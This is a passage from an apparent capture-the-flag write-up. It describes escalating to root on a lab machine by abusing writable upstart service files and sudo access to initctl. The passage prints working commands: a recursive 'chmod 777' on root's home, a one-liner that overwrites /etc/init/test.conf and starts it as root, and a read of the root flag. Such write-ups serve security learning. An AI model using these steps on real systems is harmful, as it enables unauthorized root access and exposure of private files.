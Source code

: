 ```shell
katie@spectra /usr/local/share/nodebrew $ ll
total 56
drwxr-xr-x  7 chronos chronos  4096 Jun 29  2020 .
drwxr-xr-x 96 chronos chronos  4096 Feb 11 23:12 ..
drwxr-xr-x  5 chronos chronos  4096 Jun 29  2020 completions
lrwxrwxrwx  1 chronos chronos    57 Jun 29  2020 current -> /usr/local/tmp/crew/dest/usr/local/share/nodebrew/default
drwxr-xr-x  3 chronos chronos  4096 Jun 29  2020 default
drwxr-xr-x  2 chronos chronos  4096 Jun 29  2020 iojs
drwxr-xr-x  3 chronos chronos  4096 Jun 29  2020 node
-rwxr-xr-x  1 chronos chronos 24634 Jun 29  2020 nodebrew
drwxr-xr-x  3 chronos chronos  4096 Jun 29  2020 src

$ find /usr/local/share/nodebrew -writeable
```

Nothing here is writeable by `katie` or `developers`. Two dangling symlinks at `./nodebrew/default` and `./nodebrew/nodebrew` which are dangerous in theory, because they are used when starting `node`, but they cannot be unlinked/re-linked nor we can create the files they are pointing to.

So this didn't yield any usable results. Let's try to overwrite the service `.conf` itself, in case it's automatically executed somewhere. So we add to all writeable service files the following line, in order to make all of `root`'s files world-readable on next execution.

```shell
chmod 777 -R /root /home/root
```

Checking back a little bit later, the files are reverted back to their original content, so there is apparently some sort of reset-mechanism involved. **Whatever we want to do, we've to be quick!**

Checking for the service management tool (not ITIL, more like `systemd` lol) shows no matched for neither `systemd`, `upstart`, `initd`, etc. Searching the files explicitly reveals, that `initctl` is in fact present, just not on `$PATH` \*facepalm\*. It's located at `/sbin/initctl`, but still... shouldn't work without being `root`.

However, since this is a development machine, maybe `developers` or `katie` are allowed to execute `initctl` for their testing services.

...

Actually **YES!** `/sbin/initctl status test` succeeds and doesn't print the expected error. So let's craft a one-liner that overwrites the `test.conf` file with a manipulated version, containing the `chmod 777` from above, which should execute as `root`.

```shell
cat /home/katie/test.conf > /etc/init/test.conf; \
sudo /sbin/initctl reload-configuration; \
sudo /sbin/initctl start test;
```

**SUCCESS!** `root`'s entire home directory is now world-readable, granting us access to the root-flag:

```shell
$ cat /root/root.txt
```
